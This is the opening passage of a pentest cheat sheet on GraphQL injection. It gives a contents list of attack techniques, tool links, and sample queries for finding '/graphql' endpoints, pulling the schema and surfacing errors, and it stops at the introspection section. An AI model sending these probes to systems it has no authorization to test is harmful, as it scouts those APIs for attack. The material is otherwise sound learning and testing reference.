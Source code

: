 # GraphQL injection

> GraphQL is a query language for APIs and a runtime for fulfilling those queries with existing data. A GraphQL service is created by defining types and fields on those types, then providing functions for each field on each type


## Summary

* [Tools](#tools)
* [Exploit](#exploit)
  * [Identify an injection point](#identify-an-injection-point)
  * [Enumerate Database Schema via Instropection](#enumerate-database-schema-via-introspection)
  * [Extract data](#extract-data)
  * [Extract data using edges/nodes](#extract-data-using-edges-nodes)
  * [Extract data using projections](#extract-data-using-projections)
  * [Enumerate the types' definition](#enumerate-the-type-definition)
  * [Use mutations](#use-mutations)
  * [NOSQL injection](#nosql-injection)
  * [SQL injection](#sql-injection)
  * [GraphQL Batching Attacks](#graphql-batching-attacks)
* [References](#references)

## Tools

* [GraphQLmap - Scripting engine to interact with a graphql endpoint for pentesting purposes](https://github.com/swisskyrepo/GraphQLmap)
* [GraphQL Security Toolkit - GraphQL Security Research Material](https://github.com/doyensec/graph-ql/)
* [GraphQL IDE - An extensive IDE for exploring GraphQL API's](https://github.com/andev-software/graphql-ide)

## Exploit

### Identify an injection point

Most of the time the graphql is located on the `/graphql` or `/graphiql` endpoint.

```js
example.com/graphql?query={__schema{types{name}}}
example.com/graphiql?query={__schema{types{name}}}
```

Check if errors are visible.

```javascript
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```


### Enumerate Database Schema via Introspection
